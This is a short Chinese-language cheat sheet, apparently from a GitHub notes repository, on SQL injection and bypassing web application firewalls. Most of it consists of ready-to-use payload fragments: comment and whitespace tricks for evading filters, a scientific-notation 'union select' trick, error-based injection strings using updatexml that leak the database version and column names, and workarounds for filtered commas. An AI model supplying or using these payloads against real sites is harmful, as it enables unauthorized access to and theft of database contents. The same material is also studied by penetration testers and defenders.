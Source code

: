 通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。通常未经检查或者未经充分检查的用户输入数据或代码编写问题，意外变成了代码被执行。

### 过waf

>   https://blog.csdn.net/wjy397/article/details/53263281

1.  确定waf类型，狗、盾、神、锁、宝、卫士
2.  使用注释符号或者特殊符号或者多个特殊符号重复

```
# 
--
-- - //5.6.12特性，需要加空格
--+
//
/**/ //c风格注释
/**//**/  //多个注释
/*letmetest*/
;


# 科学记数法
id=0e1union select



# 空白字符
SQLite3 0A 0D 0C 09 20 
MySQL5 09 0A 0B 0C 0D A0 20 
PosgresSQL 0A 0D 0C 09 20 
Oracle 11g 00 0A 0D 0C 09 20 
MSSQL 01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20
```

1.  使用sql内置函数或者关键字

>   报错注入 https://blog.csdn.net/like98k/article/details/79646512

```
# 常用
extractvalue
updatexml 报错注入
UPDATEXML (XML_document, XPath_string, new_value); 
or updatexml(1, concat(0x7e, (version()), 0x7e), 0);
> select * from  users where id = 1 and updatexml(1, concat(0x7e, (version()), 0x7e), 0);
> version() database() (SELECT concat(column_name) FROM information_schema.columns WHERE table_name='users' limit 0,1

floor()
ceil()
Mid(version(),1,1)
Substr(version(),1,1)
Substring(version(),1,1)
concat(version(),'|',user());
concat_ws('|',1,2,3)
Char(49)
Hex('a')
Unhex(61)
过滤了逗号
(1)limit处的逗号：
limit 1 offset 0
(2)字符串截取处的逗号
mid处的逗号：
mid(version() from 1 for 1)
```
